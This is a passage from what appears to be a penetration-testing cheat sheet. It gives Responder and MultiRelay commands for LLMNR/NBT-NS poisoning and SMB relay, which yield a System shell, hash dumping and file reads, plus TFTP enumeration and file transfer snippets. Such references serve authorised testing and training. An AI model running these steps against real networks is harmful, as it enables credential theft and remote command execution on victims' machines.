 Once a relay has been successful, MultiRelay will give you an interactive shell allowing you to:

- Remotely dump the LM and NT hashes on the target.
- Remotely dump any registry keys under HKLM.
- Read any file on the target.
- Download any file on the target.
- Execute any command as System on the target.

```bash
# 1. Edit the Responder config file to disable SMB and HTTP servers
gedit Responder.conf # -> Change SMB and HTTP to Off
# 2. 
python Responder.py -I ETHERNER_INTERFACE -rv
# 3. 
/MultiRelay.py -t <target host> -c <shell command> -u ALL
```

For more information about that technique refer to [T1557.001 - Man-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay](https://attack.mitre.org/techniques/T1557/001/)

###### *If you don't know, now you know: [LLMNR](https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution) & [NBT-NS](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc958811(v=technet.10)?redirectedfrom=MSDN)*

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.

###### *If you don't know, now you know: [WPAD](https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol)*

The Web Proxy Auto-Discovery (WPAD) Protocol is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. Once detection and download of the configuration file is complete, it can be executed to determine the proxy for a specified URL.

### TFTP

TFTP requires no authentication, so ...

```bash
nmap -n -Pn -sU -p 69 -sV --script tftp-enum IP # Brute-force default paths
```

Python can be used to interact with it

```Python
import tftpy
client = tftpy.TftpClient(<ip>, <port>)
client.download("filename in server", "/tmp/filename", timeout=5)
client.upload("filename to upload", "/local/path/file", timeout=5)
```

### NTP
